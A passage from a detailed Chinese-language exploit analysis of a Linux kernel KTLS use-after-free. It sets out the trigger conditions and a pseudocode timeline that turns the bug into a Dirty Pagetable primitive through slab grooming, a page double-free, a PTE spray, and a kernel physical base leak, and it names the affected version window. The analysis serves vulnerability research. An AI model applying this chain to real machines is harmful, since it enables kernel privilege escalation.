| `P1` 独占 `frags[0]`                                                                  | frags 循环只对 `P1` 执行 `put_page`          | 两次 `put_page` 的目标不唯一 |

#### 2-5-4. 解密路径条件

解密路径条件决定 T5 的 `tls_strp_msg_hold` 是否被调用、`n` 是否创建。两个条件共同作用：任一不满足，2-4-6 与 2-4-7 两条链就在 `tls_strp_msg_hold` 之前断掉。

| 条件                                                             | 作用                                                           | 不满足时的后果                         |
| ---------------------------------------------------------------- | -------------------------------------------------------------- | -------------------------------------- |
| AEAD 异步（`ctx->async_capable` 与 `tls_msg->control` 同时满足） | `tls_decrypt_sg` 末尾进入 async 分支，调用 `tls_strp_msg_hold` | `tls_strp_msg_hold` 不调用，`n` 不创建 |
| `frags` 循环可进入（`dataref` 能归零，依赖 2-5-1 的版本约束）    | `skb_release_data(n)` 执行 frags 循环                          | `P1` 的第二次 `put_page` 不发生        |

第二条的版本依赖：`dataref` 能归零要求 `H` 来自通用 `kmalloc-1k`（6.3 的 `skbuff_small_head` 不生效）、`skb_data_unref()` 的 `dataref == bias` 短路不生效（6.9 的行为不生效）——这两点与 2-5-1 的版本条件是同一组约束的两个视角：2-5-1 从版本号角度描述，2-5-4 从 `dataref` 可达性角度描述。

#### 2-5-5. 内存布局条件

内存布局条件决定 2-2-9 的三层释放语义能否稳定成立，而不被 SLUB 的检查或 `H->shinfo` 的覆盖提前打断。这些条件不改变悬垂的形成，只改变悬垂被消费时的稳定性。

| 条件                                              | 作用                                                                                                                                                                                                                                                                                                                               | 不满足时的后果                                                      |
| ------------------------------------------------- | ---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | ------------------------------------------------------------------- |
| dummy `B_head` 保护（32 个，把 `H` 推到第 33 位） | 所有相关操作都在 CPU 0 上完成。T4 的 `kfree(H)` 走 `nodefer` 同步落到 CPU 0 freelist 顶部；随后在 CPU 0 上 free 32 个 `B_head`，把 `H` 从顶部推到第 33 位。此后 (a) 任何 CPU 0 的 `kmalloc-1k` 分配拿到 `B_head` 而非 `H`，`H->shinfo` 不被覆盖；(b) T5 第二次 `kfree(H)` 时 `H` 不在 freelist 顶部，`BUG_ON(object == fp)` 不触发 | T5 读到的 `frags[0]` 不是 `P1`，或第二次 `kfree` 在 SLUB 检查处崩溃 |
| `P1` 来自 pipe buffer                             | `pipe->tmp_page` 在 T5 后仍指向 `P1`                                                                                                                                                                                                                                                                                               | `P1` 归还后不被 pipe 复用路径拿到                                   |

“位置 33”的含义是：所有相关操作都在 CPU 0 上完成，`H` 在 T4 被 `skb_attempt_defer_free` 的 `nodefer` 分支同步释放到 CPU 0 的 `kmalloc-1k` freelist 顶部，此时 freelist 初始状态为 `[H, ...]`；在 CPU 0 上 drain 32 个 dummy `B_head` 后，freelist 变为 `[B_head_31, ..., B_head_0, H, ...]`——`H` 从顶部被推到第 33 位（1-indexed）。此后任何 CPU 0 的 `kmalloc-1k` 分配拿到的是 `B_head_31`，不是 `H`，`H->shinfo` 得以保留到 T5；T5 第二次 `kfree(H)` 时 `H` 不在 freelist 顶部，`set_freepointer()` 中的 `BUG_ON(object == fp)` 不触发。同一组 dummy `B_head` drain 同时承担两个职责——屏蔽 `H->shinfo` 与规避 `BUG_ON(object == fp)`——两者由同一组 drain 完成，不可分割。

#### 2-5-6. 条件汇总

五类条件按"是否让整条链成立"与"是否让整条链稳定"分成两组：

| 组   | 条件类                            | 作用                                                                                    | 不满足时的后果                                          |
| ---- | --------------------------------- | --------------------------------------------------------------------------------------- | ------------------------------------------------------- |
| 成立 | 环境 / 时序 / 数据形态 / 解密路径 | 悬垂窗口成立，`n` 被创建，`P1` 的第二次 `put_page` 执行                                 | 悬垂窗口或物理页级错位入口不出现                        |
| 稳定 | 内存布局                          | 两次 `kfree(H)` 不被 SLUB 检查打断，`H->shinfo` 不被覆盖，`P1` 与 `pipe->tmp_page` 重叠 | 整条链在 T4 或 T5 崩溃，`P1` 的第二次 `put_page` 不发生 |

两类不是并列关系：前四类不满足，第五类即使满足也无从生效；第五类不满足，前四类即使满足，整条链也在 T4 或 T5 崩溃。

把 2-5 放回 2-2 至 2-4 的视角中，五类条件可以看作三节的前提集合：2-2 的四层结构缺失需要环境、时序、数据形态、解密路径四类条件才能依次到位；2-3 的四层结构体需要数据形态条件才有正确的初始形态；2-4 的七条链需要内存布局条件才能稳定执行到 `P1` 的第二次 `put_page`。三节描述"发生了什么"，本节描述"要让它发生，需要满足什么"——两者合起来，才构成对整条链从"现象"到"前提"的完整描述。

### 2-6. 时间线

2-2 至 2-5 分别从结构缺失、对象状态、函数链与触发条件四个视角描述了整条链。2-4 已给出完整函数链，本节不再重复调用关系，而是用伪代码按时间顺序展示每个阶段的操作语义与计数状态。

时间线分为四个阶段：悬垂形成、页表重叠、PTE 泄漏、汇总。前三个阶段按时间顺序排列，覆盖从 T0 之前的挂载点到 T8 的 PTE 泄漏；第四阶段把三个阶段的关键数值与贡献汇总成表。各阶段的起止时间点在该阶段正文开头给出。

#### 2-6-1. 悬垂形成

本阶段覆盖 T0 之前至 T5 purge。四个结构缺失层依次在 T0 之前、T2、T4、T5 上到位；三个计数——`fclone_ref`、`dataref`、`page_ref`——在 T0 之前至 T5 purge 上各被触及若干次。

**T0 之前 — 挂载点层**

```
reader:
    // 不显式 pin CPU，fork 后继承父进程的 CPU 0 亲和性
    recv(<conn>, <buf>, MSG_WAITALL)
        // 阻塞在 sk_wait_data
        // 此时 reader 已进入 tcp_recvmsg_locked，尚未挂载 KTLS

parent:
    sleep(1)
    setsockopt(<conn>, TCP_ULP, "tls")
    setsockopt(<conn>, TLS_RX, <crypto>)
    // sk_data_ready = tls_data_ready
    // saved_data_ready = tcp_data_ready
    // 挂载点层缺口：KTLS 不检查已有消费者，reader 留在旧栈帧
```

这一阶段不涉及任何计数，但它是整条链能够成立的前提：若无挂载点层的缺口，T4 的并发消费不会发生。

**T0/T1 — 发送与绑定建立**

```
parent:
    write(<client>, <tls_record>, 40)
    splice(<data_pipe>, <client>, 768)

    <A>       = alloc_skb_fclone()
    get_page(<P1>)
    <A_clone> = skb_clone(<A>)

// 计数状态
H->dataref    = 2
fclone_ref    = 2
P1->_refcount = 2
    // 持有者：pipe->bufs[0].page、shinfo(A/A_clone)->frags[0]

// Dirty Pagetable 贡献
// P1 被 pipe 与 frags 双持有——T4 合法释放与 T5 无主释放能够叠加的前提
```

**T1.5 — ACK 释放 A**

```
client:
    ack_received = true
    free(<A>)
        // dataref   2 -> 1（skb_data_unref 在 dataref==1 短路，frags 循环不运行）
        // fclone_ref 2 -> 1（A_clone 仍占 skb2 槽位，整块不释放）

// 计数状态
H->dataref    = 1
fclone_ref    = 1
P1->_refcount = 2

// Dirty Pagetable 贡献
// 不触及 P1，但把 dataref 从 2 降到 1
// 若 ACK 未在 T4 之前到达：
//   - T4 释放 A_clone 时 dataref 2→1，跳过 frags，P1 不 put_page
//   - T5 skb_clone 把 dataref 拉回 2
//   - T5 purge 时 dataref 2→1，跳过 frags，P1 的第二次 put_page 不发生
//   - ACK 到达时 dataref 1→0，进入 frags，P1 第一次 put_page（2→1）
//   - 结果：P1 只被 put_page 一次，Dirty Pagetable 链在 T5 purge 断掉
```

**T2 — 缓存绑定**

```
conn:
    on_data_arrival:
        <first> = tcp_recv_skb(<conn>, copied_seq)
            // first = A_clone（A 已在 T1.5 释放）
        shinfo(<anchor>)->frag_list = <first>
            // 裸指针，不 skb_get
        strp->stm.full_len = 40
        strp->msg_ready = 1
        wake(<reader>)

// 计数状态
shinfo(anchor)->frag_list -> A_clone
H->dataref    = 1
P1->_refcount = 2

// Dirty Pagetable 贡献
// frag_list 是裸指针，不持引用计数
// anchor 无法感知 A_clone 在 T4 的释放，为 T5 的 UAF 消费提供媒介
```

**T3 — 首次 recv**

```
parent:
    recv(<conn>, <ro_map>)
        // tcp_inq = 768 >= full_len = 40
        // tls_strp_msg_load 不早退，刷新 anchor
        shinfo(<anchor>)->frag_list = <A_clone>
        // tls_do_decryption 走同步路径，darg->async = false，
        //   AEAD 同步完成并返回 0；tls_decrypt_sg 不进入
        //   tls_strp_msg_hold 分支
        // copy_to_user(ro_map) 因 ro_map 为 PROT_READ 而失败
        //   → tls_decrypt_sg 返回 -EFAULT → tls_rx_one_record 返回 -EFAULT
        // tls_sw_recvmsg 在 tls_rx_one_record 返回后调用
        //   tls_err_abort(sk, -EBADMSG)（-EBADMSG 硬编码，与 -EFAULT 无关）
        sk_err = -EBADMSG
        wake(<reader>)
    // recv() 返回 -1 / EFAULT

// 计数状态
shinfo(anchor)->frag_list -> A_clone
H->dataref    = 1
P1->_refcount = 2

// Dirty Pagetable 贡献
// 不触及 P1，但触发 wake #2
// tcp reader 的唤醒是 T4 得以发生的直接原因
```

**T4 — 并发消费，P1 第一次 put_page（合法释放）**

```
reader:
    wake #2
    <A_clone> removed from sk_receive_queue
    free(<A_clone>)
        // A 在 CPU 0 上分配(alloc_cpu = 0)
        // A_clone 由 skb_clone 从 A 继承 alloc_cpu = 0
        // reader 继承父进程的 CPU 0 亲和性，fork 后未改亲和性
        // alloc_cpu == current_cpu == 0 → skb_attempt_defer_free 走 nodefer 分支
        // 在 tcp_recvmsg_locked 的同步调用栈内立即执行 __kfree_skb
        // 不挂 defer_list，不延迟到 softirq

    // 状态变化（在 tcp_recvmsg_locked 返回前已完成）
    dataref   1 -> 0（进入 frags 循环）
    put_page(<P1>)      // P1->_refcount 2 -> 1，合法释放
    kfree(<H>)          // 第 1 次
    fclone_ref 1 -> 0   // 整个 fclone 块释放

// 计数状态
shinfo(anchor)->frag_list -> (悬垂)
H->dataref    = 0
P1->_refcount = 1
fclone_ref    = 0

// Dirty Pagetable 贡献
// 第一次 put_page 是合法释放
// shinfo(A_clone)->frags[0] 确实持有 P1 的一份引用
// 此时 P1 仍被 pipe_buffer 合法持有，不会回到 buddy freelist
// H 在 CPU 0 的 kmalloc-1k freelist 顶部
```

**T4.5 — dummy B_head drain 与 recycle**

T4.5 包含两个彼此独立、作用于不同对象的操作：drain 一组 dummy `B_head`（作用于 `kmalloc-1k` 的 per-CPU freelist），以及 recycle `P1`（作用于 pipe 的 `tmp_page`）。两者互不依赖，顺序不影响结果，两步都在 T5 之前完成。

```
parent:
    // 步骤 1：drain DUMMY_PAIR_COUNT 个 B_head，把 H 推离 CPU 0 freelist 顶部
    for i in [DUMMY_PAIR_COUNT-1 .. 0]:
        read(<dummy_serv[i]>, <scratch>, 1)
            // 释放 B_head[i] 到 CPU 0 kmalloc-1k freelist
            // H 从 freelist 顶部被推到第 DUMMY_PAIR_COUNT+1 位
            // 规避 T5 第二次 kfree(H) 的 BUG_ON(object == fp)
            // 同时屏蔽 H->shinfo 不被后续 CPU 0 分配覆盖
            // （frags[0] = P1 得以保留到 T5）

    // 步骤 2：recycle，P1 转移到 tmp_page
    read(<data_pipe>, <scratch>, PAD_SIZE - tls_record_len)
        // PAD_SIZE - tls_record_len = 2008，但 pipe 中实际只剩
        // PAD_SIZE - SPLICE_SIZE = 1280 字节，read 返回 1280
        // 读出的是 pipe_buffer 中剩余的 1280 字节
        // anon_pipe_buf_release 看到 page_count == 1（仅 pipe_buffer 持有）
        //   → 缓存 P1 到 pipe->tmp_page
        //   → 不调用 put_page
        // _refcount 保持 1

// 计数状态
H->dataref    = 0
P1->_refcount = 1
    // 持有者：pipe->tmp_page（pipe 的缓存页，仍持引用）
    // pipe_buffer 不再持有
H 位于 CPU 0 freelist 第 DUMMY_PAIR_COUNT+1 位

// Dirty Pagetable 贡献
// dummy drain 规避 T5 第二次 kfree(H) 的 BUG_ON(object == fp)
//   并屏蔽 H->shinfo（含 frags[0] = P1）不被后续 CPU 0 分配覆盖
// recycle 把 P1 从 pipe_buffer 转移到 pipe->tmp_page
//   为 T6 的 pipe_write 复用 tmp_page 做准备
//   若缺少这一步，T6 的 pipe_write 无法复用 P1
```

**T5 — 二次 recv，skb_clone 假引用**

```
parent:
    recv(<conn>, <scratch>)
        // tcp_inq = 0 < full_len = 40
        // tls_strp_msg_load 早退，anchor 不刷新

        <A_clone_dangling> = shinfo(anchor)->frag_list

        <H>  = <A_clone_dangling>->head
            // UAF 读：A_clone 所在 fclone 块已释放

        <P1> = shinfo(<A_clone_dangling>)->frags[0]
            // UAF 读：shinfo(A_clone) 位于 H + A_clone->end 处
            // H 已释放，但 T4.5 的 dummy drain 保证了 shinfo 未被覆盖
            // shinfo(A_clone) 与 T5 skb_clone 后 n 的 shinfo 同一块内存

        <n> = skb_clone(<A_clone_dangling>)
            // A_clone 的 fclone 为 SKB_FCLONE_CLONE
            // n 从 skbuff_head_cache 分配
            // n->head = H
            // shinfo(n)->frags[0] = P1（shinfo(n) 与 shinfo(A_clone) 同一块内存）
            dataref 0 -> 1   // 假引用
        enqueue(<n>, async_hold)

// 计数状态
H->dataref    = 1
P1->_refcount = 1
async_hold:   n

// Dirty Pagetable 贡献
// n 的 frags[0] 指向 P1，但 n 的构造过程没有 get_page(P1)
// n 的 frags[0] 来自 UAF 读出的残留值，不是合法引用
// dataref 的假引用只是让 skb_release_data(n) 能进入 frags 循环
```

**T5 purge — P1 第二次 put_page（无主释放）**

```
cryptd:
    decrypt_done(err = -EBADMSG)
        sk_err = -EBADMSG

parent:
    recv_end:
        wait_for_async_decrypt()
        purge(async_hold)
            free(<n>)
                // dataref 1 -> 0（进入 frags 循环）
                // put_page(shinfo(n)->frags[0].bv_page)
                //   shinfo(n) = n->head + n->end = H + A_clone->end = shinfo(A_clone)
                //   skb_clone 不复制 skb_shared_info，n 与 A_clone 共享同一块
                //   因此 shinfo(n)->frags[0] 与 shinfo(A_clone)->frags[0] 同为 P1
                //   = put_page(P1)，P1->_refcount 1 -> 0，无主释放
                // kfree(H)       // 第 2 次
                //   此时 H 在 CPU 0 freelist 第 DUMMY_PAIR_COUNT+1 位
                //   不在顶部，BUG_ON(object == fp) 不触发
                // n->fclone == UNAVAILABLE，直接释放回 skbuff_head_cache
    // recv() 返回 -1 / EBADMSG

// 计数状态
H->dataref    = 0
P1->_refcount = 0
pipe->tmp_page 仍指向 P1

// Dirty Pagetable 贡献
// 第二次 put_page 是无主释放
// shinfo(n)->frags[0] 来自 UAF 读，n 并不持有 P1 的合法引用
// P1 被归还 buddy freelist，pipe->tmp_page 仍指向 P1
// → Dirty Pagetable 物理页级入口形成
```

本阶段结束时，四层结构缺失依次到位——挂载点层在 T0 之前留下缺口，缓存绑定层在 T2 建立裸指针缓存，并发消费层在 T4 释放 `A_clone`，早退分叉层在 T5 保留悬垂 `frag_list`；三个计数各被触及若干次——`fclone_ref` 在 T1/T1.5/T4 上完成 1→2→1→0，`dataref` 在 T1/T1.5/T4/T5/T5 purge 上完成 2→1→0→1→0，`P1->_refcount` 在 T0 之前/T0/T1/T4/T5 purge 上完成 1→2→1→0。`H` 的两次 `kfree` 与 `P1` 的两次 `put_page` 在 T4 与 T5 purge 上先后完成，`P1` 的物理页级入口在 T5 purge 形成。T3 的 AEAD 在同步路径上完成，`tls_err_abort` 由 `tls_sw_recvmsg` 在 `tls_rx_one_record` 返回 `-EFAULT` 后直接调用；T5 的 AEAD 走异步路径，`tls_err_abort` 由 `tls_decrypt_done` 在 workqueue 上下文调用。T4 与 T5 purge 之间，T4.5 的 dummy `B_head` drain 把 `H` 推离 CPU 0 freelist 顶部，同一组 drain 同时规避 `BUG_ON(object == fp)` 并屏蔽 `H->shinfo` 被覆盖；T4.5 的 recycle 把 `P1` 缓存到 `pipe->tmp_page`——这一步是 T6 能够复用 `P1` 的前提。

#### 2-6-2. 页表重叠

本阶段覆盖 T6 至 T7。T5 purge 后，`P1` 处于“buddy freelist 上、但 `pipe->tmp_page` 仍指向”的状态。这一状态来自 T4.5 的 recycle——`P1` 在 T4.5 被缓存到 `tmp_page`，T5 purge 时 `_refcount` 归零，但 `tmp_page` 的指针不变。T6 与 T7 把 `P1` 从 buddy freelist 取回到 pipe，再让 PTE 页表分配器取回 `P1`，形成 pipe 与页表的重叠。

**T6 — reclaim，P1 重新被 pipe 引用**

```
parent:
    write(<data_pipe>, <scratch>, RECLAIM_SIZE)
        // pipe_write 优先复用 pipe->tmp_page
        <page> = pipe->tmp_page         // page = P1
        pipe->bufs[<idx>].page = <page>
        get_page(<P1>)
            // P1->_refcount 0 -> 1
            // 注意：P1 此时在 buddy freelist 上，_refcount == 0
            // get_page 直接 atomic_inc，不检查 _refcount 是否为 0
            // CONFIG_DEBUG_VM 或 CONFIG_PAGE_REF_DEBUG 下可能触发警告
            // 本 PoC 的测试配置未开启这些选项
            // get_page 不从 buddy freelist 上摘除 P1
            // buddy allocator 仍认为 P1 是空闲页

// 计数状态
P1->_refcount = 1
    // pipe->bufs[<idx>].page 持有
    // buddy allocator 仍认为 P1 可分配

// Dirty Pagetable 贡献
// P1 同时在两个子系统上被引用：
//   - buddy allocator 认为它空闲
//   - pipe 认为它属于 pipe
// 这一“双视角”是 T7 能够形成重叠的前提
```

**T7 — PTE spray，P1 被 PTE 页表分配器取回**

```
parent:
    for i in range(NR_SPRAY):
        mmap(<va[i]>, VMA_SIZE, ...)
    for i in range(0, NR_SPRAY, PTE_PER_TABLE):
        *(volatile char*)<va[i]>

kernel:
    pt_allocator:
        <pt> = alloc_pages(GFP_PGTABLE_USER)
            // 单次 alloc_pages 命中 P1 的概率很低
            // PoC 用 256 个 VMA 的 PTE 页表分配来增大命中概率
            // 若取到 P1，P1 的内容变成 PTE 表
            // PTE[0] = empty_zero_page 的物理地址

// 计数状态
P1->_refcount = 1

// Dirty Pagetable 贡献
// P1 的物理页同时承担两个角色：
//   - 从 pipe 的视角，它是 pipe_buffer 的页
//   - 从内核页表的视角，它是某个 VMA 的 PTE 页表页
// → pipe 与 PTE 页表重叠（Dirty Pagetable 的核心）
```

本阶段结束时，T6 把 `P1` 从“buddy freelist 上的空闲页”重新包装成“pipe buffer 持有的页”，T7 让 PTE 页表分配器取回 `P1`，两者叠加形成 pipe 与页表的重叠。此后通过 pipe 读写 `P1`，等价于读写 PTE 页表——pipe 的读路径可以读出 PTE 内容，pipe 的写路径可以改写 PTE 内容。

#### 2-6-3. PTE 泄漏

本阶段覆盖 T8。T7 的重叠建立后，T8 从 pipe 读出 PTE 内容，泄漏内核物理基址。

**T8 — PTE leak，泄漏 empty_zero_page 物理地址**

```
parent:
    read(<data_pipe>, <scratch>, RECLAIM_SIZE)
        // 读出的是 P1 的内容——即 PTE 页表
    <pte> = *(size_t*)<scratch>
        // pte = 0x800000001b9bf225（示例值）
        // 0x225 的低 12 位 = present | user | accessed | bit 9
        // bit 6 (dirty) 与 bit 11 (soft-dirty) 均为 0
        // → 未触发 COW，empty_zero_page 是原始映射

    assert pte & 0x1
    assert pte & 0x4
    assert (pte >> 63) == 1
    assert (pte & PTE_DIRTY_BITS) == 0

    <empty_zero_phys> = pte & PTE_PHYS_MASK
        // = 0x000000001b9bf000
    <kbase_raw> = <empty_zero_phys> - (EMPTY_ZERO_PAGE - KERNEL_LINK_BASE)
        // = 0x000000001b9bf000 - 0x00000000027bf000
        // = 0x0000000019200000
    <kbase> = <kbase_raw> & PHYS_2MB_ALIGN_MASK
        // = 0x0000000019200000
    assert <kbase_raw> == <kbase>

// 泄漏结果
PTE[0]              = 0x800000001b9bf225
empty_zero_page_phys = 0x000000001b9bf000
kbase                = 0x0000000019200000

// Dirty Pagetable 贡献
// 把 T7 的重叠转化为可观测的信息泄漏
// empty_zero_page 的物理地址暴露了内核物理基址
```

本阶段结束时，T8 把 `P1` 作为 PTE 页表读出，泄漏 `empty_zero_page` 的物理地址，进而推导内核物理基址。pipe 与页表的重叠从“不可观测”变为“可观测”——这是 Dirty Pagetable 原语从“形成”转为“可用”的关键一步。

#### 2-6-4. 汇总

十二个时间点对 Dirty Pagetable 提权的贡献如下。表中 `P1->_refcount` 与 `H->dataref` 列为该时间点结束时的值；`—` 表示该时间点不触及该计数。

| 时间点   | 关键动作                                                                    | `P1->_refcount` | `H->dataref` | 对 Dirty Pagetable 的贡献                                                                               |
| -------- | --------------------------------------------------------------------------- | --------------- | ------------ | ------------------------------------------------------------------------------------------------------- |
| T0 之前  | reader 阻塞在 `sk_wait_data`，parent 挂载 KTLS                              | 1               | —            | 挂载点层缺口；`P1` 由 `pipe_buffer` 持有（`write(data_pipe, 2048)` 之后）                               |
| T0/T1    | `splice` 把 `P1` 挂入 `frags[0]`，`skb_clone` 得到 `A_clone`                | 2               | 2            | `P1` 被 pipe 与 frags 双持有                                                                            |
| T1.5     | `tcp_ack` 释放 `A`，`dataref` 在 `== 1` 处短路                              | 2               | 1            | `dataref` 降到 1，为 T4 的 frags 循环创造条件                                                           |
| T2       | `frag_list` 缓存 `A_clone` 的裸指针                                         | 2               | 1            | 裸指针缓存，为悬垂提供媒介                                                                              |
| T3       | `WARN_ON` 不触发，`tls_err_abort` 唤醒 reader（wake #2）                    | 2               | 1            | wake #2 触发，为 T4 创造条件                                                                            |
| T4       | reader 释放 `A_clone`，`put_page(P1)` 合法                                  | 1               | 0            | `P1` 第一次 `put_page`，合法释放；`H` 在 CPU 0 freelist 顶部                                            |
| T4.5     | drain `DUMMY_PAIR_COUNT` 个 `B_head`，再 recycle `P1` 到 `tmp_page`         | 1               | —            | 把 `H` 推离 CPU 0 freelist 顶部（规避 `BUG_ON` 与屏蔽 `H->shinfo`）；`P1` 转入 `tmp_page`，为 T6 做准备 |
| T5       | `WARN_ON` 早退，`skb_clone` 假引用                                          | 1               | 1            | `n` 从 UAF 读出 `P1`，不持合法引用                                                                      |
| T5 purge | purge `n`，`put_page(P1)` 无主                                              | **0**           | 0            | `P1` 第二次 `put_page`，归还 buddy freelist；`pipe->tmp_page` 仍指向                                    |
| T6       | `write(data_pipe)` 复用 `tmp_page`                                          | 1               | —            | `P1` 在 buddy freelist 与 pipe buffer 上双引用                                                          |
| T7       | fault-in 256 个 VMA，PTE 页表分配器取回 `P1`                                | 1               | —            | pipe 与 PTE 页表重叠（Dirty Pagetable）                                                                 |
| T8       | 从 pipe 读出 `PTE[0]` = 0x800000001b9bf225，泄漏 `empty_zero_page` 物理地址 | 1               | —            | 从重叠中泄漏内核物理基址 `kbase = 0x19200000`                                                           |

时间线有三个关键分界点：**T4.5** 把 `H` 推离 CPU 0 freelist 顶部（规避第二次 `kfree(H)` 的 `BUG_ON` 并屏蔽 `H->shinfo` 被覆盖），同时把 `P1` 转入 `pipe->tmp_page`；**T5 purge** 形成物理页级错位入口（`P1` 双重释放后归还 buddy freelist，`pipe->tmp_page` 仍指向）；**T7** 形成 pipe 与 PTE 页表的重叠（`P1` 同时作为 pipe buffer 的页与某个 VMA 的 PTE 页表页）。前者是 T5 能安全完成的前提，后者是 Dirty Pagetable 原语的成型；T8 在成型的基础上完成信息泄漏。官方 PoC 只走到 T5 的 UAF 读与 `BUG()`，没有 T6 之后的利用；本文 PoC 把 T5 purge 的物理页级错位入口延伸为 T6 至 T8 的重叠与泄漏，才使 Dirty Pagetable 从原语变为可观测的内核物理基址。

从时间线回看 2-2 至 2-5：2-2 的四层结构缺失对应悬垂形成阶段的 T0 之前至 T5 purge；2-3 的 `P1->_refcount` 与 `H->dataref` 在悬垂形成阶段上各被触及若干次；2-4 的七条链覆盖悬垂形成阶段；2-5 的五类条件约束悬垂形成阶段的成立。页表重叠与 PTE 泄漏两个阶段属于 Dirty Pagetable 原语形成后的标准利用，不在漏洞根因范围内——但作为完整 Dirty Pagetable 链，这两个阶段是 2-6 不可或缺的部分。

### 2-7. 影响范围

官方 CPE 列表覆盖 6.0 到 6.17-rc1 的多个分支，这个范围描述漏洞本身。Dirty Pagetable 完整链在这个范围之上还叠加两条后段约束：6.3 的 `skbuff_small_head` 与 6.9 的 `skb_data_unref()`。两者都阻断 `P1` 的第二次 `put_page`，完整链的窗口由更早的 6.3 决定：**`6.0 <= v < 6.3`**。

#### 2-7-1. 官方范围

| 分支   | 受影响区间            |
| ------ | --------------------- |
| 6.0.x  | `6.0 <= v < 6.6.103`  |
| 6.7.x  | `6.7 <= v < 6.12.43`  |
| 6.13.x | `6.13 <= v < 6.15.11` |
| 6.16.x | `6.16 <= v < 6.16.2`  |
| 6.17   | `6.17-rc1`            |

官方 PoC 在 CPE 表列出的受影响版本上按设计应能触发 UAF 读与 `BUG()`；公告中报告的是 6.16.0 上的崩溃。Dirty Pagetable 链还需要 T5 的 frags 循环以正确的 `nr_frags` 执行、`dataref` 能够进入 frags 循环，这两点在 6.3 与 6.9 之后均被破坏。

#### 2-7-2. 6.3 约束

`bf9f1baa279f` 在 `kmalloc_reserve` 中引入专用 cache 分支：

```c
static void *kmalloc_reserve(unsigned int *size, gfp_t flags, int node,
			     bool *pfmemalloc)
{
	unsigned int obj_size;
	void *obj;

	obj_size = SKB_HEAD_ALIGN(*size);
#ifdef HAVE_SKB_SMALL_HEAD_CACHE
	if (obj_size <= SKB_SMALL_HEAD_CACHE_SIZE &&
	    !(flags & KMALLOC_NOT_NORMAL_BITS)) {
		obj = kmem_cache_alloc_node(skb_small_head_cache,
				flags | __GFP_NOMEMALLOC | __GFP_NOWARN,
				node);
		if (obj) {
			*size = SKB_SMALL_HEAD_CACHE_SIZE;
			goto out;
		}
	}
#endif
	*size = obj_size = kmalloc_size_roundup(obj_size);
	...
}
```

当 `obj_size <= SKB_SMALL_HEAD_CACHE_SIZE` 时，`H` 从 `skbuff_small_head` 专用 cache 分配，而非通用 `kmalloc-1k`。

该 cache 的 `s->offset` 为 `0x140`，恰好等于 `skb_shared_info` 在 `H` 中的起始偏移——`SKB_SMALL_HEAD_CACHE_SIZE - sizeof(struct skb_shared_info) = 640 - 320 = 0x140`，也就是 `skb->end` 的值。SLUB 在 `H + 0x140` 处写入的 freelist pointer 从 `flags` 字段开始覆盖 `skb_shared_info` 偏移 0–7 字节，涉及 `flags` / `meta_len` / `nr_frags` / `tx_flags` / `gso_size` / `gso_segs` 六个字段。其中 `nr_frags` 是 Dirty Pagetable 链唯一关心的字段——其余五个字段不影响 frags 循环。

覆盖发生在 `kfree(H)` 的返回路径上，早于任何后续分配——dummy `B_head` 保护针对的是“其他分配者写入”，无法撤销 SLUB 在 `kfree` 时自身的写入。

T4 的 `kfree(H)` 后，T5 读到的 `nr_frags` 是垃圾值：

- 低字节为 0 → `nr_frags = 0`，frags 循环不执行，`put_page(P1)` 不发生。
- 低字节非 0 → frags 循环访问垃圾 `bv_page`，`put_page` 触发无效地址访问，内核 crash。

两种情况下 Dirty Pagetable 链在 T5 purge 处断掉。dummy `B_head` 保护在 `skbuff_small_head` 上仍能作用于同一 cache 的 freelist：`B_head` 与 `H` 都从 `skbuff_small_head` 分配（1 字节 write 产生的 skb head 同样落在 `SKB_SMALL_HEAD_CACHE_SIZE` 内），drain 仍可把 `H` 推离 freelist 顶部、仍可规避 `BUG_ON(object == fp)`。但 6.3 的核心问题是 SLUB 在 `kfree(H)` 时已经把 freelist pointer 写到 `H + 0x140`、覆盖 `nr_frags`——dummy `B_head` drain 发生在 `kfree` 之后，无法撤销这次写入。两者作用于不同层面：dummy `B_head` drain 管 freelist 上的位置，SLUB `kfree` 管对象内容。

#### 2-7-3. 6.9 约束

`1cface552a` 在 `skb_release_data` 中用 `skb_data_unref()` 替换 `atomic_sub_return`：

```c
static inline bool skb_data_unref(const struct sk_buff *skb,
				  struct skb_shared_info *shinfo)
{
	int bias;

	if (!skb->cloned)
		return true;

	bias = skb->nohdr ? (1 << SKB_DATAREF_SHIFT) + 1 : 1;

	if (atomic_read(&shinfo->dataref) == bias)
		smp_rmb();
	else if (atomic_sub_return(bias, &shinfo->dataref))
		return false;

	return true;
}
```

```c
static void skb_release_data(struct sk_buff *skb, enum skb_drop_reason reason,
			     ...)
{
	struct skb_shared_info *shinfo = skb_shinfo(skb);
	int i;

	if (!skb_data_unref(skb, shinfo))
		goto exit;

	for (i = 0; i < shinfo->nr_frags; i++)
		__skb_frag_unref(&shinfo->frags[i], skb->pp_recycle);

free_head:
	if (shinfo->frag_list)
		kfree_skb_list(shinfo->frag_list);

	skb_free_head(skb, reason);
exit:
	skb->pp_recycle = 0;
}
```

按 `dataref` 与 `bias` 的关系：

| 情况                          | 动作                             | 返回    | frags 循环 |
| ----------------------------- | -------------------------------- | ------- | ---------- |
| `dataref == bias`             | `smp_rmb()`，**不递减**          | `true`  | 进入       |
| `dataref != bias`，递减后非零 | `atomic_sub_return(bias)`        | `false` | 跳过       |
| `dataref != bias`，递减后为零 | `atomic_sub_return(bias)` 返回 0 | `true`  | 进入       |

T4 释放 `A_clone`：进入时 `dataref = 1 == bias`，`smp_rmb()`，**不递减**，frags 循环执行（`put_page(P1)` 2→1，`kfree(H)` 第 1 次），**离开时 `dataref` 停在 1 而非 0**。

T5 `skb_clone`：`atomic_inc` 使 `dataref` 从 1 增到 2。6.0–6.8 上此时从 0 增到 1。

T5 purge 释放 `n`：进入时 `dataref = 2 != bias`，`atomic_sub_return(1)` 使 2→1，返回非零，**跳过 frags 循环**——`put_page(P1)` 不发生，`kfree(H)` 第 2 次不发生。

阻断依赖“T4 把 `dataref` 停在 1”这一行为。若 T4 像 6.0–6.8 那样把 `dataref` 降到 0，T5 `skb_clone` 从 0 增到 1，T5 purge 时 `atomic_sub_return(1)` 使 1 降到 0，返回 0，frags 循环正常执行。

#### 2-7-4. 可用窗口

两条约束的对比：

| 约束                  | 作用时机                                               | 破坏对象                            | T5 frags 循环                                 | 阻断   |
| --------------------- | ------------------------------------------------------ | ----------------------------------- | --------------------------------------------- | ------ |
| `bf9f1baa279f`（6.3） | T4 `kfree(H)` 时                                       | `nr_frags` 被 freelist pointer 覆盖 | 不可控：`nr_frags = 0` 时跳过，垃圾值时 crash | **是** |
